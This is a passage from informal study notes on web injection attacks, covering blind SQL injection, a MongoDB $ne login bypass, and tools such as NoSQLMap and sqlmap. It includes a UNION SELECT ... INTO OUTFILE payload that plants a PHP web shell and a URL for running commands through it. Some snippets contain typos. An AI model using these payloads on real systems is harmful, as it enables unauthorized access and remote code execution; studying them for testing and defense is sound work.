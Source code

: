 For example webpage collects active users, by collecting data from your cookie and tracking it. Then we can manipulate request so that it contains output to file. Thanks to that we can confirm that SQL Injection is a working vulnerability in this functionality even though there is no visual cue or even time based cue for us.

### **NoSQL injection***
In NoSQL databases there are still injections.  You can search them up, I don't want to actually put that down right now, because they're very much depended on the database and it's language. Logic stays the same.

MongoDB example:
``Users.find({username: 'vickie', password 'password123'})
into
``Users.find({username: 'admin', password: {$ne:""}});
MongoDB uses $ne to select objects which value doesn't equal to provided value. So it will make as login as an administrator provided that admin doesn't have empty password.

To find places vulnerable you should input special chars like: (', ") (;) (\) (()) ([]) ({})  and look for anomalies or weird behaviors.

You can automate this process by using https://github.com/codingo/NoSQLMap

### **Escalation**
Basically try to get as much information as possible. You can try to get more intel on the database structure or on single entities that it contains. 

Sometimes if it uses php you can get access to the webapp shell, by using SQL ability to output its output as a file.
```
SELECT Password FROM Users Wher Username='abc'
UNION SELECT "<? system($_REQUEST['cmd']); ?>"
INTO OUTFILE "/var/www/html/shell.php"
```
If you can inject something like that into SQL query you  can then access php shell of server on the webapp:
http://www.example.com/shell.php?cmd=Command

### **Automation of SQL Injection**
Trying to exploit SQL Injection manually is a fucking chore and isn't scalable.
It is advised to use tool provided by Kali which is called sqlmap. It uses same techniques as written above, but guesses entire database on its own and then prints it.
**"sqlmap http://sqlmap.org"**
also you can integrate sqlmap with your burp suite proxy by using SQLiPy for Burp. It can help. 


